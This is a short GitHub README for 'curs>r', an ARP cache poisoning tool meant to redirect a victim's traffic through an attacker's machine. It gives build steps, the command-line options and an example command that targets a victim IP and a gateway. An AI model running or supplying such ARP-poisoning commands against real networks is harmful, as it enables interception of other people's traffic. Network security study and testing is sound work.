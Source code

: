 # curs>r
A small tool to send malicious arp packets that poison the arp cache of gateway, so the victim's traffic is able to route to the attacker's machine.The curs>r name inspired by an 80s survival horror game in a netflix movie called "Choose or Die" where the game makes the players step into a surreal world of next-level terror and forces them to make choices with deadly consequences.

### Prerequisites
+ [CMake](http://www.cmake.org "CMake project page") (>= 3.17)

### Building
```bash
cd build
./builder.sh
```

### Usage
```bash
➜ ./curser -h
Usage: curser [OPTIONS]
OPTIONS:
	-ifn   interface name
	-vpa   victim ip
	-sha   sender mac address
	-gpa   gateway ip
	-gha   gateway mac address
  
➜ sudo ./curser -ifn en0 -vpa 192.168.0.22 -sha 00:AA:BB:CC:DD:EE -gpa 192.168.1.1 -gha 00:01:02:03:04:05
```
